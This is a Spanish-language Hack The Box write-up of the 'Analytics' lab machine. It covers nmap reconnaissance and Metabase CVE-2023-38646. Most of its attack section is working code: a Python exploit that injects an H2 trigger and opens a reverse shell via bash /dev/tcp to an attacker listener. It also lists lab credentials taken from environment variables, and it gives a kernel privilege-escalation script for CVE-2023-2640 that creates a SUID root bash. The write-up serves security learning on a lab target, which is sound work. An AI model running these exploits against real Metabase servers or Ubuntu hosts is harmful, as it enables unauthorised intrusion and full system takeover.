 ![Analytics](https://github.com/n0m3l4c000nt35/Hack-The-Box/assets/149972189/f4eb7212-b431-473c-98ee-d8a80af39a64)

# Introducción

---
La máquina Analytics de Hack The Box se centra en la plataforma Metabase, presenta una combinación de vulnerabilidades que van desde una RCE pre-autenticación hasta una escalada de privilegios a través de una vulnerabilidad en el kernel.
Este write-up detalla el proceso de enumeración, explotación y escalada de privilegios para obtener acceso al usuario y obtener el control total del sistema.

# Reconocimiento
---
`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.233 -oG ports`

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-15 13:48 -03
Initiating SYN Stealth Scan at 13:48
Scanning 10.10.11.233 [65535 ports]
Discovered open port 80/tcp on 10.10.11.233
Discovered open port 22/tcp on 10.10.11.233
Completed SYN Stealth Scan at 13:48, 14.93s elapsed (65535 total ports)
Nmap scan report for 10.10.11.233
Host is up, received user-set (0.16s latency).
Scanned at 2023-12-15 13:48:24 -03 for 15s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.22 seconds
           Raw packets sent: 73134 (3.218MB) | Rcvd: 72895 (2.916MB)
```

`nmap -p 22,80 -n -Pn -sCV 10.10.11.233 -oN openPorts`

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-15 13:50 -03
Nmap scan report for 10.10.11.233
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.80 seconds
```

En la fase inicial, se realizó una extensa enumeración de puertos utilizando [Nmap](https://nmap.org/).
La dirección IP se resolvió mediante la configuración del archivo `/etc/hosts`:  
`echo "<target-ip>  analytical.htb data.analytical.htb" >> /etc/hosts`

Se identificaron los servicios en los puertos 22 y 80, este último redirigiendo a `http://data.analytical.htb`. Este redireccionamiento es crucial para la posterior explotación de Metabase.

# Descubrimiento de la vulnerabilidad
---
La investigación reveló una vulnerabilidad pre-autenticación en Metabase, específicamente [CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646). Este fallo permite la ejecución remota de código, proporcionando acceso al servidor.
Un minucioso detalle acerca de la vulnerabilidad se encuentra en [Pre-Auth RCE in Metabase (CVE-2023-38646)](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/).

# Explotación de la Vulnerabilidad
---
Se creó un script en Python para aprovechar la vulnerabilidad, estableciendo una conexión inversa al servidor objetivo. El script aprovecha la vulnerabilidad para ejecutar una shell interactiva, permitiendo al atacante el control total del sistema.

```python
#!/usr/bin/python3

import sys, signal, requests, json, base64, threading, argparse
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...")
    sys.exit(1)

# ctrl + c
signal.signal(signal.SIGINT, def_handler)

def get_arguments():
    parser = argparse.ArgumentParser(description="Analytics Reverse Shell")
    parser.add_argument("-lh", "--lhost", dest="lhost", required=True, help="Your IP (Ex: -lh 192.168.0.1)")
    parser.add_argument("-lp", "--lport", dest="lport", required=True, help="Listening port (Ex: --lport 1234)")
    options = parser.parse_args()

    return options.lhost, options.lport

def get_setup_token():
    response = requests.get("http://data.analytical.htb/api/session/properties", verify=False)
    data = response.json()
    setup_token = data.get("setup-token")
    return setup_token

def create_payload(lhost, lport):
    payload = f"bash -i >& /dev/tcp/{lhost}/{lport} 0>&1"
    payload_base64 = base64.b64encode(payload.encode()).decode()
    return payload_base64

def get_reverse_shell():
    shell_url = "http://data.analytical.htb/api/setup/validate"    
    headers = {"Content-Type": "application/json"}
    shell_data = {
        "token": setup_token,
        "details": {
            "is_on_demand": False,
            "is_full_sync": False,
            "is_sample": False,
            "cache_ttl": None,
            "refingerprint": False,
            "auto_run_queries": True,
            "schedules": {},
            "details": {
                "db": f"zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {{echo,{payload_base64}}}|{{base64,-d}}|{{bash,-i}}')\n$$--=x",
                "advanced-options": False,
                "ssl": True
            },
            "name": "an-sec-research-team",
            "engine": "h2"
        }
    }
    response = requests.post(shell_url, headers=headers, data=json.dumps(shell_data))

if __name__ == '__main__':
    
    lhost, lport = get_arguments()

    setup_token = get_setup_token()
    print(f"\n[+] Setup token: {setup_token}\n")

    payload_base64 = create_payload(lhost, lport)

    threading.Thread(target=get_reverse_shell, args=()).start()

    shell = listen(lport, timeout=20).wait_for_connection()
    shell.interactive()
```

Con el acceso adquirido a través de la vulnerabilidad de Metabase, se procedió a investigar y descubrir credenciales almacenadas en las variables de entorno (`env`). Se identificaron las siguientes credenciales:

```
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

Estas credenciales permitieron el acceso mediante SSH al servidor objetivo. Utilizando el comando:
```bash
ssh metalytics@<target-ip>
An4lytics_ds20223#
```

Se estableció una conexión SSH exitosa, otorgando acceso al sistema como el usuario `metalytics`.
## User Flag
---
Una vez dentro del sistema, se ubicó la user flag en el directorio `/home/metalytics`.
# Escalada de privilegios
---
La fase de escalada de privilegios aprovechó una vulnerabilidad en el kernel [CVE-2023-2640 Detail](https://nvd.nist.gov/vuln/detail/CVE-2023-2640) detectado con el comando `uname -rs`.

Se utilizó un script con el comando `unshare` para obtener privilegios de root. Posteriormente, se obtuvo acceso al sistema como el usuario `root`.

```bash
#!/bin/bash

tmp_bash=/var/tmp/bash

echo -e "\n[+] Comprobando si el archivo '/var/tmp/bash' existe"

if [ -e "$tmp_bash" ] && [ -u "$tmp_bash" ]; then
	echo -e "\n[+] El archivo bash existe y tiene permisos SUID"
	ls -l /var/tmp/bash
	echo -e "\n[+] Ganando acceso como root\n"
	/var/tmp/bash -p
else
	echo -e "\n[!] El archivo $tmp_bash no existe\n"
	unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
fi
```

## Root Flag
---
Con privilegios de root, se localizó la root flag en el directorio `/root`.

